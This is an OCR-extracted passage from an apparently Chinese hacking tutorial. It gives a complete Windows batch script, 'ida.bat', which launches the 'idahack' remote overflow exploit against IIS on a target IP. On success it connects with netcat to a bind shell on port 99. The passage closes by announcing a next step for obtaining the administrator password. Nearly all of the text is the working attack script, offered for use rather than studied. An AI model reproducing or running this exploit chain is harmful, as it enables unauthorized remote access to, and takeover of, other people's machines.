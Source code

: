 @if exist %windir%/system32/fina.exe (echo Find fina.exe !!!) else (echo ERROR: Not find fina.exe)

_____________________________

下面我们以具体的一个idahack程序就是ida远程溢出为例子.应该是很简单的.

___________________ida.bat_____

@rem ver 1.0

@if NOT exist %windir%/system32/idahack.exe echo "ERROR: dont find idahack.exe"

@if NOT exist %windir%/system32/nc.exe echo "ERROR: dont find nc.exe"

@if "%1" =="" goto USAGE

@if NOT "%2" =="" goto SP2

:start

@echo Now start ...

@ping %1

@echo chinese win2k:1 sp1:2 sp2:3

idahack.exe %1 80 1 99 >%temp%/_tmp

@echo "prog exit code [%errorlevel%] idahack.exe"

@type %temp%/_tmp

@find "good luck :)" %temp%/_tmp

@echo "prog exit code [%errorlevel%] find [goog luck]"

@if NOT errorlevel 1 nc.exe %1 99

@goto END

:SP2

@idahack.exe %1 80 %2 99 %temp%/_tmp

@type %temp%/_tmp

@find "good luck :)" %temp%/_tmp

@if NOT errorlevel 1 nc.exe %1 99

@goto END

:USAGE

@echo Example: ida.bat IP

@echo Example: ida.bat IP (2,3)

:END

_____________________ida.bat__END_______

下面我们再来第二个文件.就是得到administrator的口令.

大多数人说得不到.其实是自己的没有输入正确的信息.
